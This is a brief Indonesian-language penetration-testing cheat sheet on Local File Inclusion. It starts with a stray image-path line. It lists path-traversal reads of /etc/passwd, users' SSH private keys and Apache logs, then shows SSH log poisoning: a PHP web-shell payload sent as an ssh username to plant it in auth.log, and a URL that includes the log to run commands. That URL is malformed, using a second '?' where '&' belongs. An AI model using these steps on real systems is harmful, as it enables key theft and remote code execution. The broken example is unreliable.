 # Local File Inclusion
- [ ] Cek `/etc/passwd` terus cek apakah pada direktori home bisa kita lihat ssh keys, contoh `/home/mrdoel/.ssh/id_rsa` 
	- [ ] Cek `../../../../etc/apache2/envvars` dan cek apakah ada direktori log sepeti `../../../../var/log/apache2/access.log` ini kasusnya pakai apache2, kalau nginx saya nda tau kok tanya saya. 
- [ ] Adalagi kasus LFI dimana berhubungan dengan log yang ada SMTP, cek apakah Port Email Seperti POP3, SMTP, IMAP terbuka

## SSH Log Poisoning
Jika pada saat menemukan LFI cek file `/var/log/auth.log` kalau ada info tentang SSH pada file tersebut maka kita bisa melakukan SSH Log Poisoning
```
ssh '<?php system($_GET['c']); ?>'@192.168.56.148
```
Maksud perintah diatas adalah untuk memasukkan kode `<?php system($_GET['c']); ?>` ke dalam file `/var/log/auth.log` sehingga kita bisa mengaksesnya dengan cara berikut

```
http://site.com/index.php?file=../../../../var/log/auth.log?c=ls
```